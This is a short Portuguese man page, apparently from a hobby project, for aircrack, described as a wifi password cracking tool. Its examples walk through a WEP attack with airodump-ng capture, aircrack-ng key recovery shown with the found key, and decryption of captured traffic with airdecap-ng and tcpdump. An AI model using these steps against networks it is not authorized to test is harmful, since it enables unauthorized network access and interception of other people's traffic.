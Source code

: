 .\" generated with Ronn/v0.7.3
.\" http://github.com/rtomayko/ronn/tree/0.7.3
.
.TH "AIRCRACK" "1" "May 2017" "" ""
.
.SH "NAME"
\fBaircrack\fR \- Programa para quebrar senha de rede wifi
.
.SH "SYNOPSIS"
\fBaircrack\fR [\fB\-bar\fR] [\fB\-c\fR \fIconfig\-file\fR ] \fIfile\fR \.\.\.
.
.SH "DESCRIÇÃO"
\fBaircrack\fRé um programa utilizado na maioria das vezes por \fIhacker\fR para quebrar a senha de redes wifi\.
.
.SH "OPÇÕES"
.
.TP
\fB\-w\fR FILENAME
Usar uma wordlist FILENAME\.
.
.SH "EXEMPLOS"
root@crack_WEP:~# airodump\-ng mon0 [ CH 10 ][ Elapsed: 4 s ][ 2009\-08\-08 18:01 ][] BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID 00:A0:C5:FF:84:72 197 4 0 0 1 11 WEP WEP private BSSID STATION PWR Rate Lost Packets Probes
.
.P
root@crack_WEP:~# airodump\-ng \-\-channel 1 \-\-bssid 00:A0:C5:FF:84:72 \-\-write temp wlan0
.
.P
CH 1 ][ Elapsed: 31 mins ][ 2009\-05\-02 21:52
.
.br
BSSID PWR RXQ Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID 00:A0:C5:FF:84:72 205 10 6058 24496 0 1 54 WEP WEP private
.
.br
BSSID STATION PWR Rate Lost Packets Probes
.
.br
00:A0:C5:FF:84:72 00:18:4D:76:30:EB 188 54\-54 0 24795
.
.P
root@crack_WEP:~# aircrack\-ng \-z \-b 00:A0:C5:FF:84:72 temp\.cap\-0*\.cap
.
.IP "" 4
.
.nf

                                     Aircrack\-ng 1\.0 rc1

                     [00:00:22] Tested 240228 keys (got 41742 IVs)
.
.fi
.
.IP "" 0
.
.P
KB depth byte(vote) 0 0/ 1 B9(58880) A0(50688) 12(50176) F5(49920) 9E(48896) CD(48640) 1 0/ 1 19(54784) E8(52480) FA(52480) 4B(51456) 79(51456) DD(49664) 2 0/ 1 31(59648) EA(53504) 40(50688) 0A(50432) 88(50432) 0E(50176) 3 0/ 1 8C(60416) 05(49152) 56(49152) 23(48640) 52(48384) 03(48128) 4 0/ 1 B2(59136) AE(49664) 78(49152) FE(49152) 8B(48384) 9C(47616) 5 0/ 1 61(53504) E6(50688) FF(50176) 13(49664) 23(49408) C7(49408) 6 0/ 1 DD(56320) C4(51968) 90(50688) 0C(50176) CF(49920) CE(49152) 7 0/ 1 4E(53248) E6(51968) 7D(49152) 0B(48896) 90(48896) 06(48640) 8 0/ 1 FB(52224) C1(49664) E9(48128) 3D(47616) F0(47360) EB(47104) 9 0/ 1 0B(54784) BC(51712) 52(50432) 54(49920) F5(49920) CA(48896) 10 0/ 1 E6(50944) 1C(49920) 5F(49408) 1F(49152) 0A(48896) 83(48896) 11 2/ 1 FF(49664) 17(48384) 94(48128) 27(47872) 23(47616) B2(47616) 12 0/ 4 91(50452) A4(50360) 77(50156) 78(49540) FF(49476) 70(48788)
.
.IP "" 4
.
.nf

         KEY FOUND! [ B9:19:31:8C:B2:61:DD:4E:FB:0B:AA:62:99 ]
Decrypted correctly: 100%
.
.fi
.
.IP "" 0
.
.P
\fBDecrypt the traffic\fR It is possible to capture the traffic in \.cap files as above, decrypt it in a second file before sending it to the tcpdump command for instance:
.
.P
root@crack_WEP:~# airdecap\-ng \-w b919318cb261dd4efb0baa6299 temp\-01\.cap Total number of packets read 22072 Total number of WEP data packets 6245 Total number of WPA data packets 0 `Number of plaintext data packets 3 Number of decrypted WEP packets 6245 Number of corrupted WEP packets 0 Number of decrypted WPA packets 0
.
.P
root@crack_WEP:~# tcpdump \-r temp\-01\-dec\.cap \-i wlan
.
.SH "ARQUIVOS"
Use uma wordlist para ajudar a achar a chave\.
.
.SH "ENVIRONMENT"
O cdshell prove uma ferramenta chamada generator_wordlist\.py que pode ser usada para gerar uma wordlist do jeito que você desejar\.
.
.SH "AUTOR"
Rafael Quirino \- \fIquirinobytes (a) gmail com\fR
.
.SH "VEJA SOBRE"
ronn(5), markdown(1), txt2tags(1) Linux Man Page Howto \fIhttp://www\.schweikhardt\.net/man_page_howto\.html\fR
